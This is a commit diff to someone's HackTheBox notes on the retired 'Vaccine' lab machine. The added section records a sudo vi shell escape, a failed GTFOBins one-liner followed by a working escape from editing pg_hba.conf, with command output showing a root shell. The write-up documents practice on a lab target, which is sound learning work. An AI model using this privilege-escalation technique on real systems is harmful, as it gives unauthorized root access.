

Before and after one commit to rlong2/HackTheBox, a Markdown page: Retired Machines/Vaccine/07 - sqlmap shell(s).md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
sqlmap shell to ssh session

````diff
--- a/Retired Machines/Vaccine/07 - sqlmap shell(s).md
+++ b/Retired Machines/Vaccine/07 - sqlmap shell(s).md
@@ -170,3 +170,36 @@ User postgres may run the following commands on vaccine:
     (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
 
 ```
+
+## vi exploitation
+Having a hard time getting this to work...
+https://gtfobins.github.io/gtfobins/vi/#sudo
+```
+postgres@vaccine:/tmp/ignore$ sudo vi -c ':!/bin/sh' /dev/null
+Sorry, user postgres is not allowed to execute '/usr/bin/vi -c :!/bin/sh /dev/null' as root on vaccine.
+postgres@vaccine:/tmp/ignore$ which vi
+/usr/bin/vi
+postgres@vaccine:/tmp/ignore$ which bash
+/usr/bin/bash
+postgres@vaccine:/tmp/ignore$ sudo /usr/bin/vi -c ':!/usr/bin/bash' /dev/null
+Sorry, user postgres is not allowed to execute '/usr/bin/vi -c :!/usr/bin/bash /dev/null' as root on vaccine.
+
+```
+Looks like the only file that can be sudo vi'd is the pg_hba.conf file.
+```
+postgres@vaccine:/tmp/ignore$ sudo vi /etc/postgresql/11/main/pg_hba.conf
+
+## in vi, go into command mode, paste, then hit enter
+:/bin/bash
+
+root@vaccine:/tmp/ignore# id
+uid=0(root) gid=0(root) groups=0(root)
+```
+## psql exploration
+```
+postgres@vaccine:/tmp/ignore$ psql -U postgres
+psql (11.7 (Ubuntu 11.7-0ubuntu0.19.10.1))
+Type "help" for help.
+
+postgres=#
+```
````
